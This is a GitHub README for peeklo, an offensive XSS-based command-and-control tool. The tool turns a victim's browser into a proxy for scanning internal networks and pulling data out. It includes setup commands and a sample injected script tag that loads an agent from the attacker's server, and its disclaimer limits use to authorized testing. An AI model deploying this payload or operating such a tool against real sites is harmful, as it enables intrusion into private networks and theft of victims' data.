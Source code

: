 # peeklo

**Version:** v1.0

peeklo is a browser-based XSS-powered C2 (Command and Control) tool that leverages the victim’s browser as a stealthy proxy inside internal networks.

Through an injected XSS payload, peeklo establishes a WebSocket connection to a central server, allowing an attacker to remotely control the victim’s browser to send requests to internal services, scan networks, and exfiltrate data — all without dropping a single binary.

---

## Features

- WebSocket-based communication between attacker and multiple victims  
- Victim’s browser fetches internal URLs and scans IP ranges + ports  
- Simple control panel with:  
  - Victim selector  
  - Manual URL fetch  
  - IP and port range scanner  
  - Log viewer with copy/save functionality  
- Self-signed HTTPS support with auto-generated certificates  
- Lightweight: single Python file + static assets  

---

## Requirements

- Python 3.8+  
- OpenSSL  
- Linux/macOS (tested on Debian-based systems)  

---

## Quick Start

1. Clone the repository:

    ```bash
    git clone https://github.com/b3rito/peeklo.git
    cd peeklo
    ```

2. Install dependencies:

    ```bash
    make install
    ```

3. Generate a self-signed TLS certificate:

    ```bash
    make cert
    ```

4. Run the server:

    ```bash
    make run
    ```

5. Open your browser and access the control panel:

    ```
    https://<your-ip>:8443/static/control.html
    ```

6. Inject the XSS payload (example):

    ```html
    <script src="https://<your-ip>:8443/static/agent.js"></script>
    ```

    Or embed `infect.html` as needed depending on the vulnerability.

---

## Usage

### Control Panel

- Choose a connected victim from the dropdown  
- Input a manual URL to fetch via the victim  
- Specify an IP range (e.g. `192.168.1.10-20` or `192.168.1.0/24`) and ports (e.g. `80,8080,3000-3010`) to scan  
- Results will appear in the log viewer:  
  - HTTP status  
  - Body preview 
- You can copy the log or save it as `.txt` or `.json`  

---

## Project Structure

```
peeklo/
├── main.py             → FastAPI WebSocket server  
├── start.sh            → Launch server  
├── gen-cert.sh         → Generate self-signed TLS certificate  
├── Makefile            → Install/run helpers  
├── requirements.txt    → Python dependencies  
├── certs/              → TLS key and cert will be stored here  
└── static/             → Browser client assets  
    ├── control.html    → Control panel (was attacker.html)  
    ├── infect.html     → Victim landing page  
    └── agent.js        → Victim agent script  
```

---

## Workflow

1. Inject the payload into a vulnerable web application  
2. Victim’s browser loads the agent and connects to your peeklo server  
3. From the control panel, you issue commands to fetch URLs or scan targets  
4. peeklo logs and returns the content of internal services  

---

## Use Cases

- Internal network exploration through browser footholds  
- LAN service enumeration from inside the victim’s network   

---

## Disclaimer

This tool is provided for educational and authorized testing purposes only.  
Any use of peeklo outside of environments where you have explicit permission is **strictly prohibited**.  
You are responsible for your own actions.

---

## Authors

- **b3rito** – [https://github.com/b3rito](https://github.com/b3rito)  
- **GioPpeTto**
